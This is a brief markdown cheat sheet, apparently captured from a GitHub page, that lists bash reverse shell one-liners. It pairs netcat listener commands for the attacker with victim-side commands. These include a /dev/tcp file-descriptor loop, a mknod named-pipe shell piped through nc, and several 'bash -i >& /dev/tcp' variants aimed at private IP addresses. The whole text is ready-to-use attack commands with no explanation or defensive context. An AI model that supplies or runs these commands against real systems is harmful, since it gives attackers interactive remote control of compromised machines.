# Bash

## Bash Reverse

```
nc -l -p 8080 -vvv     →  attacker

exec 5<>/dev/tcp/[ip]/8080 → host
cat <&5 | while read line; do $line 2>&5 >&5; done → host
```

## mknod Reverse Shell

```
nc -nvlp 6666 → attacker

mknod /tmp/backpipe p; /bin/sh 0< /tmp/backpipe | nc 192.168.56.1 6666 1> /tmp/backpipe → victim
```

## bash reverse ( nc -nvlp 8080)

```
bash -i >& /dev/tcp/192.168.56.1/8080 0>&1  

or

0<&196;exec 196<>/dev/tcp/10.0.0.1/666; sh <&196 >&196 2>&196

or

bash -c 'bash -i >& /dev/tcp/10.0.0.1/666 0>&1'
```
